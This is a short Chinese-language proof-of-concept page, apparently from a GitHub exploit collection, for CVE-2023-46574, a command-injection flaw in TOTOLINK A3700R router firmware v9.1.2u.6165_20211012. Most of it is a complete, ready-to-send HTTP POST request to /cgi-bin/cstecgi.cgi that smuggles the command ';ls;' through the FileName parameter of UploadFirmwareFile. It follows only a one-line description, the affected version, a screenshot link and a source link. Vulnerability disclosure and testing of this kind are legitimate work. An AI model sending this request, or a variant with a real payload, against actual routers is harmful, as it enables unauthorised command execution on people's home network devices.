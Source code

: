 # TOTOLINK A3700R命令执行漏洞CVE-2023-46574


## TOTOLINK A3700R命令执行漏洞CVE-2023-46574
TOTOLINK A3700R v9.1.2u.6165_20211012版本存在命令执行漏洞，攻击者可利用该漏洞通过UploadFirmwareFile函数的FileName参数执行任意代码。   

## 影响版本：
```
TOTOLINK A3700R v9.1.2u.6165_20211012
```


## poc
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html?time=1697964093345
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1697964047:2
Connection: close


{"topicurl":"UploadFirmwareFile","FileName":";ls;"}
```
![image](https://github.com/wy876/POC/assets/139549762/37a0b1f8-101e-4642-b9fa-3fda6f31f079)

## 来源
- https://github.com/OraclePi/repo/blob/main/totolink%20A3700R/1/A3700R%20%20V9.1.2u.6165_20211012%20vuln.md

